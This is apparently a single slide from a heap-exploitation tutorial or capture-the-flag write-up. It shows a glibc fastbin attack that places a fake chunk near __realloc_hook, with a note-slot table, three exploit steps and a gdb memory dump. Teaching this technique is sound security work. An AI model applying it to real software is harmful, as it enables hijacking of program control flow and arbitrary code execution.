

# fake chunk around __realloc_hook

0
1
2
3
4
valid
valid
valid
valid
valid
size=0x88
size=0x88
size=0x88
size=0
size=0x88
0x604830
0x604970
0x6048e0
0x604970
0x604a00
add_note('A' * (0x70 - 8))
delete_note(3)
edit(1, fake_fast_chunk_addr = (long)&_realloc_hook - 0x1b)
$ x/20x (long)(&__realloc_hook) - 0x1b
0x7ffff7dd1aed <_IO_wide_data_0+301>:   0xfff7dd0260000000      0x000000000000007f
0x7ffff7dd1afd: 0x4141414141414141      0xfff7a53380414141
0x7ffff7dd1b0d <__realloc_hook+5>:      0x000000000000007f      0x0000000000000000
0x7ffff7dd1b1d: 0x0000000000000000      0x0000000000000000